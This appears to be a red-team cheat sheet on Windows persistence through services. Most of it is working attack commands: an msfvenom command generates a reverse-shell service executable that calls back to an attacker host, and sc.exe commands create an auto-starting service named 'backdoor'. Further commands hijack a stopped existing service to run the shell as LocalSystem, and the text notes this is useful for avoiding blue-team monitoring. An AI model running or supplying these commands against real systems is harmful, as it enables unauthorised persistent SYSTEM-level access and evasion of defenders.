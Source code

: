 [[reg#sc]]
### Creating New Services
```powershell
# Create a reverse shell using msfvenom, with exe-service, as service executables are different from normal executables
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe-service -o rev-svc.exe

# Crate a service
sc.exe create backdoor binpath= "C:\path\to\reverse\shell.exe" start= auto
sc.exe start backdoor
```
### Modifying Existing Services
- Usefull when blue team is monitoring new services
- Look for `Stopped` services.
```powershell
sc.exe query state=all
```
- check configuration
```powershell
sc.exe query Stopped_Service
sc.exe config Stopped_Service binpath= "C:\Reverse\Shell.exe" start= auto obj= "LocalSystem"
# Setting obj to LocalSystem runs the service with SYSTEM Privilege
```